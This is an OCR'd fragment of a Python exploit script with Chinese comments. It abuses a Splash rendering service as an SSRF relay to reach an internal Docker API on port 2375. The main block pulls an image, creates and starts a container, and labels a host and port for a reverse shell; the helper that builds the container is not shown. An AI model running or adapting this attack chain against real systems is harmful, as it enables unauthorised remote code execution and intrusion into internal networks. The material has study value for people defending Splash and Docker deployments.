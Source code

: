 ```python
    }
    resp = requests.post(url, params=params, json={
        'headers': {'Content-Type': 'application/json'},
        "body": "",
    })

    print(resp.request.url)
    print(resp.status_code)
    print(resp.text)
    print("-" * 50)


def get_result(api, docker_api, container_id):
    url = "%s/render.html" % api
    docker_url = '%s/containers/%s/json' % (docker_api, container_id)

    params = {
        'url': docker_url
    }

    resp = requests.get(url, params=params, json={
        'headers': {
            'Accept': 'application/json'},
    })

    print(resp.request.url)
    print(resp.status_code)
    result = re.search('"ExitCode":(\w+),"', resp.text)
    exit_code = result.group(1)
    if exit_code == '0':
        print('success')
    else:
        print('error')
    print("-" * 50)


if __name__ == '__main__':
    # splash地址和端口
    splash_host = '192.168.1.120'
    splash_port = 8050

    # 内网docker的地址和端口
    docker_host = '172.16.10.74'
    docker_port = 2375

    # 反弹shell的地址和端口
    shell_host = '192.168.1.213'
    shell_port = 12345

    splash_api = "http://%s:%d" % (splash_host, splash_port)
    docker_api = 'http://%s:%d' % (docker_host, docker_port)

    # docker image，存在docker hub上
    image_name = 'b1ngz/busybox'
    image_tag = 'latest'

    # 拉取 image
    pull_image(splash_api, docker_api, image_name, image_tag)
    # 创建 container
    container_id = create_container(splash_api, docker_api, image_name, image_tag, shell_host, shell_port)
    # 启动 container
    start_container(splash_api, docker_api, container_id)
```